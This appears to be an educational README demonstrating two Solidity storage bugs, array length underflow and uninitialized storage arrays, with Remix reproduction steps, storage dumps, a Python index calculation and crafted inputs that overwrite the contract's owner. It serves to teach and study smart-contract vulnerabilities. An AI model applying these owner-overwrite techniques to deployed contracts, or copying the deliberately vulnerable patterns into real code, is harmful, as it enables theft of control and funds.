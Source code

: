# Array length underflow. 

## Description:
The storage for a contract is addressed by 256-bit pointers. All storage 
variables for the contract are stored at different offsets in this single memory space. Every variable occupies a 32-byte 
"slot" in storage that is allocated in order of the variable declaration, starting at address 0. The first 32-byte 
variable will be at address 0, the second at address 1, and so on. Because mappings and dynamic arrays have fluctuating 
sizes, their contents cannot be stored inline in the slots. To solve this, hashing is used.                                                                                       

* In the case of a dynamic array, the reserved slot contains the length of the array as a uint256, and the array data 
itself is located sequentially at the address keccak256(p). Again, the chances of a collision, even for large arrays, 
are so small that they can be ignored.

In general, user-provided data cannot influence storage locations without going through the keccak256 hash function, 
the output of which is infeasible to influence. However, there is one exception: Dynamic arrays are stored sequentially 
starting at their hashed offset. If the index into this array is under attacker control, then the storage address is 
also controlled, within the bounds of the array. Of course, realistic array sizes will be insignificant compared to the 
keccak256 range, but the array length has uint256 type. So, as [others](https://github.com/pertsev/solidity_tricks/tree/master/Underflow) 
it can be (over|under)flowed by `array.length--` e.g. 

[Solidity documentation about memories](http://solidity.readthedocs.io/en/develop/miscellaneous.html#layout-of-state-variables-in-storage)
[Example inspired by](https://github.com/Arachnid/uscc/tree/master/submissions-2017/doughoyte)

### To reproduce:

1. Copy-paste `arrayLengthUnderflow.sol` to remix (or use `Connect to localhost` feature) and deploy `Array` contract. 
2. See Storage memory at debugger: 
```json
{
   "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563":{
      // Slot for array length
      "key":"0x0000000000000000000000000000000000000000000000000000000000000000",
      "value":"0x02"
   },
   "0x510e4e770828ddbf7f7b00ab00a9f6adaf81c0dc9cc85f1f8249c256942d61d9":{
      // first item of array (notice "key" and "0x290d..." above)
      "key":"0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563",
      "value":"0xaa"
   },
   "0x6c13d8c1c5df666ea9ca2a428504a3776c8ca01021c3a1524ca7d765f600979a":{
      // second item of array (notice "key" and "0x290d...63" above)
      "key":"0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e564",
      "value":"0xbb"
   },
   "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6":{
      // owner
      "key":"0x0000000000000000000000000000000000000000000000000000000000000001",
      "value":"0xca35b7d915458ef540ade6068dfe2f44e8fa733c"
   }
}
```
3. Call `underflow` function 3 times and see Storage: 
```json
{
   "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6":{
      // owner
      "key":"0x0000000000000000000000000000000000000000000000000000000000000001",
      "value":"0xca35b7d915458ef540ade6068dfe2f44e8fa733c"
   },
   "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563":{
      // array length
      "key":"0x0000000000000000000000000000000000000000000000000000000000000000",
      "value":"0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"
   },
   "0x3a93c8bac389ae1de2d290d3fe962d3c151e3a269221b7341e4a601c50c12d94":{
      // last array elem (notice "0x29...63" and "0x29...62" above)
      "key":"0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e562",
      "value":"0x0000000000000000000000000000000000000000000000000000000000000000"
   }
}
```
4. Let's overwrite `owner`? Call `modify` with that args:
`"0xd6f21326ab749d5729fcba5677c79037b459436ab7bff709c9d06ce9f10c1a9e", "0xdeadbeef"`
And see storage now:
```json
{
   "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563":{
      "key":"0x0000000000000000000000000000000000000000000000000000000000000000",
      "value":"0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"
   },
   "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6":{
      //owner!
      "key":"0x0000000000000000000000000000000000000000000000000000000000000001",
      "value":"0x00000000000000000000000000000000000000000000000000000000deadbeef"
   }
}
```

Stop. How have you known the index `"0xd6f21326ab749d5729fcba5677c79037b459436ab7bff709c9d06ce9f10c1a9e"`?
Ok. Check following Python code to clarification:
```python
        //array length   //sha3(0x00)                                                         //owner's slot number
>>> hex(2**256         - 0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563 + 1                    )
'0xd6f21326ab749d5729fcba5677c79037b459436ab7bff709c9d06ce9f10c1a9eL'
```

# Uninitialized array. 

## Description:
By default, `copy` array data and `owner` variable refer to zero cell at Storage memory. (Read more about Storage above)
So, changing `copy` affect `owner` also.  

### To reproduce:

1. Copy-paste `uninitialized.sol` to remix (or use `Connect to localhost` feature) and deploy `Uninitialized` contract. 
2. Then call `rewrite` function with a byte array: 
```
["0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA",
"0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA",
"0x39", "0x05", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00",
"0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00"]
```
3. `owner` should be `0xaaaaa...`, `balance` == 1337
